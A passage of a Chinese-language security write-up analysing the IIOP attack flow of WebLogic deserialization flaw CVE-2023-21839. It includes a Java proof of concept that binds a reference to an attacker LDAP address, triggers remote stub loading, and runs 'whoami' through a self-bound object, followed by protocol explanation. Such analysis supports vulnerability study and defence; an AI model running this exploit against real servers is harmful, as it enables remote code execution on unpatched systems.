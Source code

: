   
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjKzq4TFicia2yUjianoH80KtrWElvrR0XQbqBDCHC68DicU6TwYLR54jEJE3rqy2icwicrV85dICfKrJsOQ/640?wx_fmt=png "")  
**03****IIOP攻击流程**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJibMfhVAoEqHjzC4sspvCiaaicXSiaXmXZ8fHXsBqBmGzHylWgIjiaPA1ehibBrBicUHrJ5W4elZGia8exTg/640?wx_fmt=png "")  
  
以 CVE-2023-21839 Weblogic 序列化漏洞为例，在 Weblogic 的 IIOP 攻击流程中，攻击端⾸先初始化上下⽂信息，使⽤  
 rebind()  
 ⽅法向注册端绑定恶意对象，再通过   
lookup()  
 ⽅法触发漏洞远程加载恶意地址中的存根对象。在加载的过程中，⾃定义的恶意对象执⾏⾃绑定的操作，将⼀个具有回显的对象绑定到 Weblogic 注册端上，之后远程调⽤该对象中的⽅法，达到攻击回显的⽬的。  
  
PoC 如下：  
```
public class main {
    public static void main(String[] args) throws NamingException, RemoteException {
        ForeignOpaqueReference foreignOpaqueReference = new ForeignOpaqueReference("ldap://xxx.xxx.xxx.xxx:1389/exp", null);
        String iiop_addr = "iiop://10.211.55.4:7001";
        Hashtable<String, String> env = new Hashtable<String, String>();
        env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
        env.put("java.naming.provider.url", iiop_addr);
        Context context = new InitialContext(env);    // 初始化上下文，建立交互连接 LocateRequest LocateReply
        String bind_name = String.valueOf(System.currentTimeMillis()); 
        context.rebind(bind_name, foreignOpaqueReference);  // 绑定远程对象 rebind_any
        context.lookup(bind_name);  // 获取远程对象 resove_any
ClusterMasterRemote clusterMasterRemote = (ClusterMasterRemote)context.lookup("selfbind_name"); //获取自绑定的回显对象  
        System.out.println(clusterMasterRemote.getServerLocation("whoami"));  // 执行远程对象中的方法  
    }
}
```  
  
**3.1 Java中的攻击流程**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJibMfhVAoEqHjzC4sspvCiaa8FvMYrVtMrb6icY14ISDreWkhYeJDZxxljqwiaCp2MibHKBTQwvyWRCyw/640?wx_fmt=png "")  
  
1. 在 Weblogic 的 IIOP 序列化交互开始时，客户端初始化上下⽂信息   
new InitialContext()  
 ，通过   
locateNameService()    
⽅法将⽬标地址、序列化对象等信息封装到 IIOP 协议的请求包中作为   
LocateRequest  
 消息与 Weblogic 服务端建⽴通信。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJibMfhVAoEqHjzC4sspvCiaaicnSIB2baJFYVBoE1Ub2uus5Ig1GMhT9z4Pc3c13xticSukUCiabpY5oQ/640?wx_fmt=png "")  
  
2. 当客户端收到服务端的   
LocateReply  
 消息后表示通信交互已建⽴，客户端会解析响应消息体中的信息，并将其中的相关信息（如 Key Address，内部类地址、上下⽂等信息）解析作为下次请求的消息体验证信息。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJibMfhVAoEqHjzC4sspvCiaas82clfao2RTUX03CoxIhcOCkice5c4bSzicicLoo3iaIg12mIBgdexgzcg/640?wx_fmt=png "")  
  